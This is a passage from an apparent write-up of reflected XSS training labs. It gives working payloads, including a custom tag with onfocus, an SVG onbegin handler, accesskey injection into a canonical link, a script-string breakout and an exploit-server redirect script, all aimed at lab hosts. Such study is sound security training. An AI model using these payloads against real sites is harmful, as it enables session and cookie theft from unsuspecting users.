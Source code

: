 ```html
<customtag+onfocus=alert(document.cookie)+id='x'+tabindex=1>
```

- So our exploit server could have a payload like this:

```html
<script>
    location="https://YOUR_LAB_ID_HERE.web-security-academy.net/?search=<customtag+onfocus=alert%28document.cookie%29+id=%27x%27+tabindex=1>#x"
</script>
```

#### Lab: Reflected XSS with some SVG markup allowed
- We need the same approach with **intruder** so step by step we could found proper payload

```html
<svg><animatetransform onbegin=alert(document.domain)>
```

#### Lab: Reflected XSS in canonical link tag
- Let's view a **page source** and find a canonical link. So canonical link in the header, let's add `?coffee` parameter to url and check the head:

```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://YOUR_LAB_ID_HERE.web-security-academy.net/?coffee'/>
<title>
```

- In this lab we can abuse URL link in the chrome. So we can use access keys, since we know user will use `X` key and we could escape the `href` using this payload:

```html
https://YOUR_LAB_ID_HERE.web-security-academy.net/?'accesskey='x'onclick='alert(1)
```

- So our head will look like this and just clicking `X` will trigger XSS

```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://YOUR_LAB_ID_HERE.web-security-academy.net/?' accesskey='x' onclick='alert(document.domain)'/>
<title>
```

#### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
- First things first - let's find where it is reflected - search for `FUZZ` (there 3 places with reflection, but because of the lab name this one is the most interesting):

```html
<script>
    var searchTerms = 'FUZZ';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
```html
</script><script> alert(document.domain)</script>
```
